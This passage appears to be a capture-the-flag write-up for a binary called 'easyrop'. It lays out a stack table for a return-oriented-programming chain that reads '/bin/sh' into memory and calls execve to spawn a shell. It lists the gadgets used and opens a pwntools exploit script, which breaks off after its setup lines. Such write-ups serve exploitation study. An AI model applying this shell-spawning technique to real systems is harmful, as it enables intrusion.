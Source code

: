 | BEFORE VULNERABLE READ | AFTER VULNERABLE READ                      |
| ---------------------- | ------------------------------------------ |
| array[...]             | padding                                    |
| ...                    | ...                                        |
| \* array[...] + 48     | padding                                    |
| sebp                   | junk                                       |
| seip                   | g1 address                                 |
| ...                    | 0 (stdin)                                  |
| ...                    | global variable address (/bin/sh location) |
| ...                    | 8 (#bytes to read)                         |
| ...                    | 0 (read syscall code)                      |
| ...                    | g2 address                                 |
| ...                    | junk                                       |
| ...                    | g1 address                                 |
| ...                    | global variable address (/bin/sh location) |
| ...                    | pointer to zero (rsi content)              |
| ...                    | pointer to zero (rdx content)              |
| ...                    | 0x3b (execve syscall code)                 |
| ...                    | g3 address                                 |

Basically we want to perform a read to put '/bin/sh' in memory, and pass it as argument to the execve syscall in order to be able to spawn a shell.

Note that:

- g1 is a gadget that performs the following operations:

  `pop rdi, pop rsi, pop rdx, pop rax, ret`

- g2:

  `syscall, nop, nop, pop rbp, ret `

  We need a syscall gadget that also performs a ret in order to be able to execute another syscall (execve /bin/sh) after the read.

- g3: `syscall`

The newline character of `/bin/sh\x00` makes the syscall fail (it will return -1 in `rax`). Solution: pass the string with `pwntools`. Actual exploit:

```python
#!/usr/bin/python3
from pwn import *
from time import sleep

# global variables
binary = './easyrop'
port = 2015
debug = False
remote_enabled = False
delay = 0.05

# initializing address variables
# note that the binary is statically linked
e = ELF(binary)
```